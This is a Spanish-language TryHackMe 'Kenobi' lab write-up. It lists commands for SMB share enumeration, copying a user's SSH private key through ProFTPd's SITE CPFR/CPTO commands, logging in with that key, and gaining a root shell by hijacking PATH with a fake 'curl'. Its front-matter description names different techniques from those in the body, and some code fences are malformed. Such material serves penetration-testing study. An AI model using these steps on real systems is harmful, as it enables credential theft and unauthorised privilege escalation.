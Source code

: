 ```yaml
---
title: "TryHackMe - Kenobi"
description: "Entorno multi-contenedor: Node-RED RCE, Redis write, Chisel port-forward y privesc con rsync+cron."
pubDate: 2025-08-26
draft: false
---
```



**IP:** 10.10.171.50

##   Enumeración SMB

```bash

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.171.50
Acceso anónimo:
  ```
```bash

smbclient //10.10.171.50/anonymous
smbget -R smb://10.10.171.50/anonymous
  ```
##   Explotación de ProFTPd

Robo de clave SSH:

```bash

SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
Acceso SSH:

```bash

chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.171.50
  ```
##  Escalada de Privilegios

Manipulación de PATH:

```bash

echo "/bin/sh" > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/usr/bin/menu
  ```